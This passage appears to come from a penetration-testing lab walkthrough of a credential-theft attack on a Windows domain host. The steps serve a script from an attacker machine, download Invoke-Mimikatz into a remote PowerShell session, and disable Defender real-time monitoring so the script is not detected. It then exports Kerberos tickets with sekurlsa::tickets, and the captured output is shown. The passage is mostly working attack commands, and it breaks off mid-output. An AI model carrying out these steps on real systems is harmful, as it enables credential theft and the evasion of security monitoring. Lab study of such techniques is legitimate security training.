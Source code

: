 2. Upload __Invoke-Mimikatz.ps1__ to the remote machine (MSEDGEWIN10):
   - LOCAL MACHINE (KALI-WINDOWS):
     ```sh
     python -m SimpleHTTPServer
     ```
   - PSSession (MSEDGEWIN10):
     ```ps1
     cd $home\Desktop

     Invoke-WebRequest -uri http://192.168.150.1:8000/Invoke-Mimikatz.ps1 -OutFile Invoke-Mimikatz.ps1
     ```

3. Use dot source to import  __Invoke-Mimikatz__:
   - PSSession (MSEDGEWIN10):
     ```
     Set-MpPreference -DisableRealtimeMonitoring $true

     . .\Invoke-Mimikatz.ps1
     ```
     __NOTE(S)__:
     - `-DisableRealtimeMonitoring $true` prevents the remote machine from detecting __Invoke-Mimikatz.ps1__ as a malicious script
     
4. Export __*krbtgt tickets*__ using Invoke-Mimikatz:
   - PSSession (MSEDGEWIN10):
     ```ps1
     mkdir tickets

     cd tickets

     Invoke-Mimikatz -command '"sekurlsa::tickets /export"'
     ```
     ```
       .#####.   mimikatz 2.2.0 (x64) #18362 May 30 2019 09:58:36
      .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
      ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
      ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
      '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
       '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

     mimikatz(powershell) # sekurlsa::tickets /export

     ...omitted...

     Authentication Id : 0 ; 303469 (00000000:0004a16d)
     Session           : Interactive from 1
     User Name         : Administrator
     Domain            : BOSSMANBEN
     Logon Server      : WIN-BO2CT95INDP
     Logon Time        : 7/12/2019 4:37:50 PM
     SID               : S-1-5-21-2817836110-3135048609-2922248965-500
